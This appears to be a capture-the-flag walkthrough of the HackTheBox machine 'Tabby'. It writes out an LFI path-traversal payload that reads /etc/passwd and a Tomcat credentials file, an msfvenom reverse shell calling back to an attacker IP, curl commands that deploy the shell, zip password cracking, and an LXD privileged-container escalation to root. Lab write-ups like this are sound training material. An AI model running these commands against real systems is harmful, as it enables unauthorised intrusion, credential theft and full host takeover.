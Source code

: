 ```yaml
---
layout: default
title: "Tabby"
tags: HackTheBox
description: "Exploit the LFI on Tomcat and escalate privileges with abusing LXC containers."
---
```


## Content table
- Enumeration
- Exploitation of Tomcat
- Privilege escalation with LXC containers

---

## Enumeration
Start with nmap scan:
```
nmap -sC -sV 10.10.10.194
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-10 06:30 EDT
Nmap scan report for 10.10.10.194
Host is up (0.021s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
---

## Exploitation of Tomcat

The service that running on port `80` is vulnerable to LFI, and that's led to the exposure of the `/etc/passwd`

```
view-source:http://10.10.10.194/news.php?file=../../../../../etc/passwd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

It took a while to find the `tomcat-users.xml` file, as usually it's located at `usr/share/tomcat9/conf/tomcat-users.xml`. In that case, you can find the `tomcat-users.xml` file at ```view-source:http://10.10.10.194/news.php?file=../../../../../../usr/share/tomcat9/etc/tomcat-users.xml```.

Content of the file:

```
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
```

Creating a reverse shell:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=53 -f war > shell.war
```

> Port number can be any. Here I'm just trying to follow the approach `What if there would be a firewall?` and not using something sketchy as port `4444`


Uploading the reverse shell:

```
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/shell'
```

Starting a listener on port `53`

```
nc -nlvp 53
```

Triggering the shell:

```
curl -u 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.194:8080/shell/
```

Upgrading the shell to fully TTY:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty raw -echo  
fg
```
---

## Privilege escalation with LXC containers

From `/etc/passwd` file we know that user `ash` exists in the system.
Enumeration PrivEsc ways with `linpeas.sh` can spot the file `16162020_backup.zip` in `/var/www/html/files/`

Download it to the Kali instance and cracking with `fcrackzip`:

```
fcrackzip -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip
```

Mentioned `.zip` file contains credentials `ash:admin@it`.  
Switching  user with `su` command.

```
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

What's LXD?  
>LXD is a next generation system container manager. It offers a user experience similar to virtual machines but using Linux containers instead.

Building a custom container:

```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo bash build-alpine
```

Uploading the new file to the machine and starting exploitation:

```
lxc image import ./alpine-v3.12-x86_64-20200710_0823.tar.gz --alias exploit
```

List of images can be checked with the command:

```
lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| exploit | 35186ff8d0a4 | no     | alpine v3.12 (20200710_08:23) | x86_64       | CONTAINER | 3.05MB | Jul 10, 2020 at 3:28pm (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
```

The container has been created. Now you can initiate this container as a privileged one and mount a disk as a device:

```
lxc init exploit honk -c security.privileged=true
lxc config device add honk roguedevice disk source=/ path=/mnt/root recursive=true
lxc start honk
lxc exec honk /bin/sh
```

As a result, you will spawn a root shell. 
